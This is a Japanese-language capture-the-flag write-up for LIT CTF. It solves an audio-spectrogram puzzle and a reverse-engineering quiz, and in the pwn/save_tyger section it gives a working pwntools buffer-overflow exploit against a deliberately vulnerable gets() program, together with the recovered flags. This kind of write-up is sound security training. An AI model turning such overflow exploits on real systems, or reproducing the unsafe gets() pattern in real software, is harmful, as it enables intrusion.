 # LIT CTF

https://lit.lhsmathcs.org/

- [misc/kirby!!!](##misc/kirby!!!)
- [rev/math](##rev/math)
- [pwn/save_tyger](##pwn/save_tyger)

## misc/kirby!!!

Kirby is so cool! (Wrap your flag in LITCTF{})

The beginning is very loud so you should turn down your volume.

https://vocaroo.com/12wR27kejDYj

Original song: Green Grounds from Kirby Mass Attack

### SOLUTIONS

Audacityで配布されたmp3ファイルを開き、スペクトラムを見るとフラグが書かれていました。

![kirby](./images/kriby.png)

### FLAG

```
LITCTF{K1RBY1SCOOL!}
```

## rev/math

### Description

### SOLUTIONS

与えられた実行ファイルを実行すると、クイズが始まりました。終盤には「Question #7: What number am I thinking of?」とナゾナゾが始まり、すなおにバイナリを読みました。

grade_test関数で、入力と答えを比較している箇所があったため、answerという配列を見ればよいと判断しました。

```c
void grade_test(void)
{
  int local_10;
  uint local_c;
  
  local_c = 0;
  for (local_10 = 0; local_10 < NUM_Q; local_10 = local_10 + 1) {
    if (*(long *)(submitted + (long)local_10 * 8) == *(long *)(answers + (long)local_10 * 8)) {
      local_c = local_c + 1;
    }
  }
  printf("You got %d out of 10 right!\n",(ulong)local_c);
  if (local_c == 10) {
    puts("Wow! That\'s a perfect score!");
    puts("Here\'s the flag:");
    generate_flag();
  }
  else {
    puts("If you get a 10 out of 10, I will give you the flag!");
  }
  return;
}
```

answerのデータが以下の通りとなっています。先頭から8バイトずつ見ればよいため、順番にデコードしました。

```c
00000000: 02 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00  ................
00000010: f0 00 00 00 00 00 00 00 03 00 00 00 00 00 00 00  ................
00000020: 6d 8d de 09 00 00 00 00 0a 00 00 00 00 00 00 00  m...............
00000030: 87 15 59 00 00 00 00 00 49 1e a1 06 00 00 00 00  ..Y.....I.......
00000040: 5f e9 60 20 00 00 00 00 09 00 00 00 00 00 00 00  _.` ............
00000050: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```

ソースコードが以下の通りです。

```python
import struct

def decode_bin(input):
  # q: 8 byte
  print(struct.unpack('q',input))

data = [b'\x02\x00\x00\x00\x00\x00\x00\x00',
        b'\x04\x00\x00\x00\x00\x00\x00\x00',
        b'\xf0\x00\x00\x00\x00\x00\x00\x00',
        b'\x03\x00\x00\x00\x00\x00\x00\x00',
        b'\x6d\x8d\xde\x09\x00\x00\x00\x00',
        b'\x0a\x00\x00\x00\x00\x00\x00\x00',
        b'\x87\x15\x59\x00\x00\x00\x00\x00',
        b'\x49\x1e\xa1\x06\x00\x00\x00\x00',
        b'\x5f\xe9\x60\x20\x00\x00\x00\x00',
        b'\x09\x00\x00\x00\x00\x00\x00\x00',
]
for i in data:
  decode_bin(i)
"""
実行結果
(2,)
(4,)
(240,)
(3,)
(165580141,)
(10,)
(5838215,)
(111222345,)
(543222111,)
(9,)
"""
```

出てきた値を順番に当てはめるとフラグが出てきました。

```bash
./math
Welcome to the math test. If you get a perfect score, I will print the flag!
All questions will have non-negative integer answers.

Question #1: What is 1+1?
2
Question #2: How many sides does a square have?
4
Question #3: What is 8*30?
240
Question #4: What is the remainder when 39 is divided by 4?
3
Question #5: What is the 41st fibbonaci number?
165580141
Question #6: How many questions are on this test?
10
Question #7: What number am I thinking of?
5838215
Question #8: What is the answer to this question?
111222345
Question #9: Prove that the answer to the previous question is correct.
543222111
Question #10: Give me an integer.
9
You got 10 out of 10 right!
Wow! That's a perfect score!
Here's the flag:
LITCTF{y0u_must_b3_gr8_@_m4th_i_th0ught_th4t_t3st_was_imp0ss1bl3!}
```

### FLAG

```
LITCTF{y0u_must_b3_gr8_@_m4th_i_th0ught_th4t_t3st_was_imp0ss1bl3!}
```

### REF

https://qiita.com/Gyutan/items/7939a723c117c8ebbe5f#struct-%E3%83%A2%E3%82%B8%E3%83%A5%E3%83%BC%E3%83%AB


## pwn/save_tyger
### SOLUTIONS

getsによる変数`pass`の書き換えが狙えそうです。

```c
#include <stdlib.h>
#include <stdio.h>

char flag[64];

int main(){
	long pass;
	char buf[32];
	pass = 0;
	printf("Oh no, someone stole our one and only Tyger! :noo:\n");
	printf("Would you help us save him?\n");
	gets(buf);
	if(pass == 0xabadaaab){
		printf("It worked!\n");
		FILE *f = fopen("flag.txt", "r");
		if(f == NULL){
			printf("Something went wrong. Please let Eggag know.\n");
			exit(1);
		}
		fgets(flag, 64, f);
		puts(flag);
	}
	else printf("WE NEED HIM BAAACK!\n");
}
```

リトルエンディアンであることを考慮して、A埋めをするとA40個 + `\xab\xaa\xad\xab`を送ると良さそうです。

```python
from pwn import *

binfile = "./save_tyger/save_tyger"
context.binary = binfile
elf = ELF(binfile)
conn = remote('litctf.live', 31786)


payload = b'a' * 40
payload += p64(0xabadaaab)
conn.recvuntil(b'Would you help us save him?\n')
conn.sendline(payload)

r = conn.interactive()
print(r)
```

```bash
[*] 'save_tyger/save_tyger'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to litctf.live on port 31786: Done
[*] Switching to interactive mode
It worked!
LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}
```

### FLAG

```
LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}
```
